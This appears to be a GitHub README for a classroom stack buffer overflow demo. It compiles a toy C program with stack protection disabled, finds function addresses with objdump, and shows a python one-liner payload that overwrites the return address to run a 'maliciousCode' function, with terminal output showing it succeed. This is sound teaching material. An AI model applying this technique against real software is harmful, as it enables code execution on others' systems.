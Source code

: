 # StackBufferOverflow
A simple example for Stack Buffer Overflow Demonstration . 

Environment: Ubuntu 16.04 VM on 64 bit Mac OS with gcc and python.  

Steps to see the exploit:   

1. Compile  
  gcc main.c -o stack -fno-stack-protector   
  -fno-stack-protector option disables the stack protection so that stack smashing will be allowed  
  
2. Read disassembly code (This will vary from system to system)  
  Run 'objdump -d stack' command to see disassembly code   
  
  ![alt text](https://github.com/ashokyannam/StackBufferOverflow/blob/master/disassembly.png)

The address of maliciousCode function is 00000000004005b6    

The address of inputDataProcessing function is 00000000004005c7      

0x40 or 64 bytes are reserved for dataBuffer based on below instruction    
4005d9:	48 8d 45 c0          	lea    -0x40(%rbp),%rax   

3. Crafting the attack pay load

Value of buffer size allocated is 64 bytes which is followed by %rbp, the base pointer of main function. So, given this is a 64 bit machine, %ebp will be stored in next 8 bytes and then return address in next eight bytes. So, the pay load size would be 72 bytes (64 + 8) and then the return address will be overwritten with maliciousCode’s address in little-endian fashion. The input stream to our vulnerable code looks like as below.

python -c 'print "a"*72 + "\xb6\x05\x40\x00\x00\x00\x00\x00"'   

3. Output with incorrect size   

ml@ml-VirtualBox:~/Desktop/StackOverflow$ python -c 'print "a"*64 + "\xb6\x05\x40\x00\x00\x00\x00\x00"' | ./stack    
Get Input Data Stream:    
Input Data Stream: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�@  
Segmentation fault (core dumped)   

4. Output with correct pay load size    

ml@ml-VirtualBox:~/Desktop/StackOverflow$ python -c 'print "a"*72 + "\xb6\x05\x40\x00\x00\x00\x00\x00"' | ./stack  
Get Input Data Stream:      
Input Data Stream: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�@    
<font color="red"> Successfully executed malicious code! </font>     
Segmentation fault (core dumped)      


